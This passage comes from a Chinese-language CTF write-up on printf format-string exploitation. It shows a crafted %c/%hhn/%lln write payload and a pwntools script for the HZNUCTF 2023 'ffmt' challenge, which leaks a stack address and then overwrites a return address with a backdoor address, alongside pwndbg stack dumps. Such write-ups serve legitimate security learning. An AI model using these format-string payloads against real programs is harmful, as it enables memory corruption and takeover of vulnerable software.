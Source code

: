 ```py


p.interactive()
```

```
b'%38$paaa%165c%12$lln%91c%13$hhn%47c%14$hhnaaaaba\xf01@\x00\x00\x00\x00\x00\xf11@\x00\x00\x00\x00\x00\xf21@\x00\x00\x00\x00\x00'
```


手写的话不是很好写。。。
好吧，纯纯傻逼。。。
注意格式！！！
`%(num)c`
`%(num)$hhn`

还有就是要任意写的地址都放最后，因为printf遇到\x00会截断。。。

## [HZNUCTF 2023 preliminary]ffmt
https://www.nssctf.cn/problem/3617
![image](https://img2024.cnblogs.com/blog/3092507/202408/3092507-20240806174405674-1926405462.png)
![image](https://img2024.cnblogs.com/blog/3092507/202408/3092507-20240806174410157-25471791.png)

第一次泄露栈地址，第二次将vuln的返回地址改为backdoor的地址。
Exp:
```py
"""
0x7ffff7ffc620
offset : 7
"""

backdoor = 0x401223
pl = b'%6$p'
#debug()
sla("name: \n",pl)
ru(b'0x')
leak = int(rc(12),16)
rsp = leak - 0x100
info_addr("rsp",rsp)


"""
00:0000│ rsp     0x7fffffffdc70 —▸ 0x7fffffffdd70 ◂— 1


pwndbg> stack 30
00:0000│ r10 rsp 0x7fffffffdc40 ◂— 0xa41414141 /* 'AAAA\n' */
01:0008│-018     0x7fffffffdc48 —▸ 0x7fffffffdc80 ◂— 0
02:0010│-010     0x7fffffffdc50 —▸ 0x4010d0 (_start) ◂— endbr64 
03:0018│-008     0x7fffffffdc58 —▸ 0x7fffffffdd70 ◂— 1
04:0020│ rbp     0x7fffffffdc60 —▸ 0x7fffffffdc80 ◂— 0
05:0028│+008     0x7fffffffdc68 —▸ 0x4012d3 (main+107) ◂— mov eax, 0


"""

# offset = 6

target = rsp - 0x8
pl = ("%" + str(35) + "c%8$hhnaaaaaa").encode() + p64(target)
sla("~\n",pl)

p.interactive()
```